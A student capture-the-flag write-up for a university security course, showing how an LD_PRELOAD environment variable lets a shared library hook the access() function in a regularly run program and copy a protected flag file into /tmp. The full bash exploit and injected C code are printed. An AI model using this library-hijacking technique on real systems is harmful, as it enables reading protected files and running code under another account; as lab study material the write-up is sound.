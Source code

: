 # **CTF Week #4**

**Objective:** Explore how environment variables affect the execution of programs on Linux systems.

**Targeted addresses**: http://ctf-fsi.fe.up.pt in port 4006 (`"nc ctf-fsi.fe.up.pt 4006"`)

## Challenge

In this challenge we needed to access to the server listening on port 4006 of the host ctf-fsi.fe.up.pt. After accessing the server we needed to take a close look at the available files and their permissions. In particular, we found code from a script that runs regularly on the server. The task was to subvert this script to obtain the hidden flag.

To find the flag we did the following steps:
* When we first enter the server we use the `ls` command to see the available files in the current directory (`flag_reader`).
* Then we execute the command `cat admin_note.txt` and discover that we have access to create folders in the `tmp` directory.

**File admin_note.txt**

```
flag_reader,                                                                                                                                                            
I locked you out of the temp folders.                                                                                
Told you before they are not to be used as permanent storage!                                                        
Hackers stole the flag by reading the files you left there!!!!!!                                                     
Finish your damn program ASAP!!!!! 
Tired of waiting for you to lock them out for good, you lazy !@%#                                                                                                                                                                        
 - The Admin    
```                         

* After that we execute the command `cat main.c` and discover that the program used the `access` function and where the `flag.txt` file was.

**Program main.c**

```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```
* After analysing the different files, we made the following explained code to discover the flag:

```bash
echo "LD_PRELOAD=/tmp/istoaqui.so.1.0.1" > env; #sets an environment variable "LD_PRELOAD" to point to a shared library file named "istoaqui.so.1.0.1" located in the "tmp" directory.

cd /tmp;

echo '#include <stdio.h>
#include <stdlib.h>

int access(const char *pathname, int mode){
system("/usr/bin/cat /flags/flag.txt > /tmp/resposta.txt");
return 0;
}' > qwe.c; #creates a "qwe.c" file in the "tmp" directory that executes a command that reads the content of the file "flag.txt" in the "flags" directory and saves the content in the "resposta.txt" file inside the "tmp" directory

gcc -fPIC -g -c qwe.c;
gcc -shared -o istoaqui.so.1.0.1 qwe.o -lc;

touch resposta.txt; #create the file "resposta.txt" where the flag in going to be written

chmod 777 resposta.txt; #changes the permissions of the "resposta.txt" file to have access to what is written inside of it

cat resposta.txt #show the content of the file "resposta.txt" (shows the flag)
```

**Result of executing the code**

![screenshot1](screenshots/CTFWEEK4/screenshot1.png)